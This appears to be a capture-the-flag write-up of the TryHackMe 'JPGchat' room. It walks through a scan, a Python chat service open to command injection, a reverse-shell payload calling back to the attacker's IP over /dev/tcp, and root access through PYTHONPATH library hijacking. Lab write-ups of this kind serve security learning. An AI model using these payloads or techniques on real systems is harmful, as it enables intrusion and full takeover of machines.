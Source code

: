 # JPGchat

At: [TryHackme](https://tryhackme.com/room/jpgchat) By: [R4v3n](https://tryhackme.com/p/R4v3n)

## Enum

Time to start with an `nmap -sC -sV -vv -oN nmap.txt $IP` scan:
```
Nmap scan report for 10.10.61.192
Host is up, received reset ttl 63 (0.047s latency).
Scanned at 2021-02-28 16:19:04 EST for 9s
Not shown: 998 closed ports
Reason: 998 resets
PORT     STATE SERVICE REASON         VERSION
22/tcp   open  ssh     syn-ack ttl 63 OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 fe:cc:3e:20:3f:a2:f8:09:6f:2c:a3:af:fa:32:9c:94 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDXqRxJhw/1rrvXuEkXF+agfTYMZrCisS01Z9EWAv8j6Cxjd00jBeaTGD/OsyuWUGwIqC0duALIIccwQfG2DjyrJCIPYyXyRiTbTSbqe07wX6qnnxV4xBmKdu8SxVlPKqVN36gQtbHWQqk9M45sej0M3Qz2q5ucrQVgWsjxYflYI1GZg7DSuWbI9/GNJPugt96uxupK0pJiJXNG26sM+w0BdF/DHlWFxG0Z+2CMqSlNt4EA2hlgBWKzGxvKbznJsapdtrAvKxBF6WOfz/FdLMQa7f28UOSs2NnUDrpz8Xhdqz2fj8RiV+gnywm8rkIzT8FOcMTGfsvOHoR8lVFvp5mj
|   256 e8:18:0c:ad:d0:63:5f:9d:bd:b7:84:b8:ab:7e:d1:97 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBD2CCqg8ac3eDsePDO27TM9OweWbaqytzrMyj+RbwDCHaAmfvhbA0CqTGdTIBAsVG6ect+OlqwgOvmTewS9ihB8=
|   256 82:1d:6b:ab:2d:04:d5:0b:7a:9b:ee:f4:64:b5:7f:64 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIIXcEOgRyLk02uwr8mYrmAmFsUGPSUw1MHEDeH5qmcxv
3000/tcp open  ppp?    syn-ack ttl 63
| fingerprint-strings: 
|   GenericLines, NULL: 
|     Welcome to JPChat
|     source code of this service can be found at our admin's github
|     MESSAGE USAGE: use [MESSAGE] to message the (currently) only channel
|_    REPORT USAGE: use [REPORT] to report someone to the admins (with proof)
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port3000-TCP:V=7.91%I=7%D=2/28%Time=603C08CF%P=x86_64-pc-linux-gnu%r(NU
SF:LL,E2,"Welcome\x20to\x20JPChat\nthe\x20source\x20code\x20of\x20this\x20
SF:service\x20can\x20be\x20found\x20at\x20our\x20admin's\x20github\nMESSAG
SF:E\x20USAGE:\x20use\x20\[MESSAGE\]\x20to\x20message\x20the\x20\(currentl
SF:y\)\x20only\x20channel\nREPORT\x20USAGE:\x20use\x20\[REPORT\]\x20to\x20
SF:report\x20someone\x20to\x20the\x20admins\x20\(with\x20proof\)\n")%r(Gen
SF:ericLines,E2,"Welcome\x20to\x20JPChat\nthe\x20source\x20code\x20of\x20t
SF:his\x20service\x20can\x20be\x20found\x20at\x20our\x20admin's\x20github\
SF:nMESSAGE\x20USAGE:\x20use\x20\[MESSAGE\]\x20to\x20message\x20the\x20\(c
SF:urrently\)\x20only\x20channel\nREPORT\x20USAGE:\x20use\x20\[REPORT\]\x2
SF:0to\x20report\x20someone\x20to\x20the\x20admins\x20\(with\x20proof\)\n"
SF:);
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
Cool, we have ssh and supposedly a custom service? Lets try connect via netcat and run a second nmap in the background (on all ports).
</br>So here we connect to the chatting service:
```bash
$ nc $IP 3000
Welcome to JPChat
the source code of this service can be found at our admin's github
MESSAGE USAGE: use [MESSAGE] to message the (currently) only channel
REPORT USAGE: use [REPORT] to report someone to the admins (with proof)
```

## OSINT

So we are supposed to look for the admin's github. Quickly jumping on GitHub and searching for `JPGchat` does the trick. [Here](https://github.com/Mozzie-jpg/JPChat).
```py
#!/usr/bin/env python3

import os

print ('Welcome to JPChat')
print ('the source code of this service can be found at our admin\'s github')

def report_form():

	print ('this report will be read by Mozzie-jpg')
	your_name = input('your name:\n')
	report_text = input('your report:\n')
	os.system("bash -c 'echo %s > /opt/jpchat/logs/report.txt'" % your_name)
	os.system("bash -c 'echo %s >> /opt/jpchat/logs/report.txt'" % report_text)

def chatting_service():

	print ('MESSAGE USAGE: use [MESSAGE] to message the (currently) only channel')
	print ('REPORT USAGE: use [REPORT] to report someone to the admins (with proof)')
	message = input('')

	if message == '[REPORT]':
		report_form()
	if message == '[MESSAGE]':
		print ('There are currently 0 other users logged in')
		while True:
			message2 = input('[MESSAGE]: ')
			if message2 == '[REPORT]':
				report_form()

chatting_service()
```
Nice, as we can see the chat awaits either a `[MESSAGE]` or a `[REPORT]` and when using `[REPORT]` it puts our input into a `bash -c ''` context. This could be abused.
```bash
$ nc $IP 3000 
Welcome to JPChat
the source code of this service can be found at our admin's github
MESSAGE USAGE: use [MESSAGE] to message the (currently) only channel
REPORT USAGE: use [REPORT] to report someone to the admins (with proof)
[REPORT]
this report will be read by Mozzie-jpg 								<-- Oh, this was a good hint :P 
your name:
```

## Foothold

So the exploit is as follows:
```
your name:
hi;bash -i >& /dev/tcp/10.8.147.71/8888 0>&1;
your report:
something
hi
```
By writing `hi;` we echo hi and end that command, then still in the context of `bash -c ''` we execute `bash -i >& /dev/tcp/YOUR_IP/8888 0>&1;` the last `;` si to ensure that the `>>` appending operation doesnt mess up our reverse shell. Listen with `nc -lvnp 8888` and get your rev shell!</br>

### Stabilize shell

```bash
python3 -c "import pt;pty.spawn('/bin/bash')"
export TERM=xterm
//CTRL + Z to background
stty raw -echo;fg             <-- after you finish type 'reset' to get your home terminal back
```
## Privesc

So who are we and what can we do?
```bash
wes@ubuntu-xenial:/$ id
uid=1001(wes) gid=1001(wes) groups=1001(wes)
wes@ubuntu-xenial:/$ sudo -l
Matching Defaults entries for wes on ubuntu-xenial:
    mail_badpass, env_keep+=PYTHONPATH

User wes may run the following commands on ubuntu-xenial:
    (root) SETENV: NOPASSWD: /usr/bin/python3 /opt/development/test_module.py
```
Very nice, I see someone has a love for python!
```bash
wes@ubuntu-xenial:~$ cd /opt/development/
wes@ubuntu-xenial:/opt/development$ ls -l
total 4
-rw-r--r-- 1 root root 93 Jan 15 18:58 test_module.py
```
So we only have read, access. Time to check out the source.
```python
#!/usr/bin/env python3

from compare import *

print(compare.Str('hello', 'hello', 'hello'))
```
So import everything from compare and then run `compare.Str`? Aight, sadly we dont have write access in `/opt/development` oterhwise this would have been a module injcetion.
```bash
wes@ubuntu-xenial:/opt/development$ find / -type f 2>/dev/null | grep compare.py
/usr/lib/python3.5/compare.py
/usr/lib/python2.7/dist-packages/lxml/doctestcompare.pyc
/usr/lib/python2.7/dist-packages/lxml/doctestcompare.py
```	
But wait: `env_keep+=PYTHONPATH` maybe we can exploit this? We can! Consult [this](https://medium.com/analytics-vidhya/python-library-hijacking-on-linux-with-examples-a31e6a9860c8) article as I did!</br>
So I moved to `/dev/shm/` as that has lmost guaranteed write access and created the following `compare.py` script:
```python
class compare:

	def Str(self, x, y,):
		import os
		x = str(x)
		y = str(y)

		if x == y:
			os.system('/bin/bash -p')
			return True;
		else:
			return False;

	def Int(self, x, y,):
		x = int(x)
		y = int(y)

		if x == y:
			return True;
		else:
			return True;

	def Float(self, x, y,):
		x = float(x)
		y = float(y)

		if x == y:
			return True;
		else:
			return False;
```
Now run this command: `sudo PYTHONPATH=/dev/shm/ /usr/bin/python3 /opt/development/test_module.py`. Voila, root
```
FLAG REDACTED

Also huge shoutout to Westar for the OSINT idea
i wouldn't have used it if it wasnt for him.
and also thank you to Wes and Optional for all the help while developing

You can find some of their work here:
https://github.com/WesVleuten
https://github.com/optionalCTF
```
